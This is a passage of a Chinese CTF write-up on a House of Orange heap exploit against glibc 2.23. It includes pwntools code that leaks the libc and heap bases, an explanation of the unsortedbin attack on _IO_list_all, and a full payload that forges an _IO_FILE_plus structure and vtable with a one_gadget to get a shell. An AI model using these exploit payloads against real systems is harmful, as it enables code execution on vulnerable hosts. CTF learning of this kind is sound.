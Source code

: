 ```python

edit(0x1111,payload)
add(0x1000)				# house of orange!

add(0x400)				# split a largebin to leak both libc and chunk base
show()
rv('Name of house : ')
libc_base=u64(p.recv(6)+2*'\x00')-0x3c510a

edit(17,'a'*16)
show()
rv('a'*16)
chunk_base=u64(p.recv(6)+2*'\x00')-0x20a

log.info('libc  base is:'+hex(libc_base))
log.info('chunk base is:'+hex(chunk_base))

```



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>现在我们已经成功泄漏出了两个地址了，只需要用unsortedbin attack攻击一下\_IO_FILE就完事了，我的how2pwn里有个**edit_io_list_all**有很清楚的写出了怎么完成这个过程：修改unsortedbin的bk为\_IO_list_all-0x10，为什么？看源码这一段：</font></br>

```c
3728	          /* remove from unsorted list */
3729	          unsorted_chunks (av)->bk = bck;
3730	          bck->fd = unsorted_chunks (av);
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>我们可以往任意地址写一个unsortedbin本身的地址，既然可以任意控制unsortedbin，我们可以往\_IO_list_all里写一个地址修改到自己控制的地方去，因为篡改后的_IO_FILE_plus结构有问题，所以会从**_chain找到下一个FILE结构体**，在这里就是**main_arena中的0x60大小的smallbin的bk处**了（无法理解的话看main_arena的作用，还有**how2pwn中的tips**看main_arena结构），然后只要伪造这一个smallbin就相当于可以随意伪造\_IO_FILE_plus结构体了，同时包括vtable（因为libc是**glibc2.23版本的所以可以伪造vtable**，更高的就不行了），利用其结构伪造vtable（看不懂？先看\_IO_FILE的[ctfwiki](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/fake-vtable-exploit/)），又因为malloc corruption（\_\_libc_message->abort->\_IO_flush_all_lockp->vtable）最终会调用vtable中的\_\_overflow，因此最终劫持流程到getshell。</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>如果还是看不懂的话**how2pwn里的orange_shell**实现了这个过程（只是必须用**gdb在调试状态**下跑，不然地址对不上）。剩下的脚本我就直接放了：</font></br>

```python
#伪造_chain指向的下一个FILE结构体
#并伪造vtable中的__overflow为one_gadget
payload='a'*0x400
payload+=p64(0)+p64(0x21)
payload+=p64(0xddaa00000002)
payload+=p64(0)*2
payload+=p64(0x61)
payload+=p64(0)+p64(libc_base+IO_list_all-0x10)
payload+=p64(0)+p64(1)
payload+=p64(0)*21
payload+=p64(chunk_base+0x7c0)
payload+=p64(0)*3+p64(one_gadget+libc_base)

edit(0x1111,payload)
#gdb.attach(p,gdbscript='b __libc_message\nc')

#pwned！
sla(menu,'1')

p.interactive()



'''
```
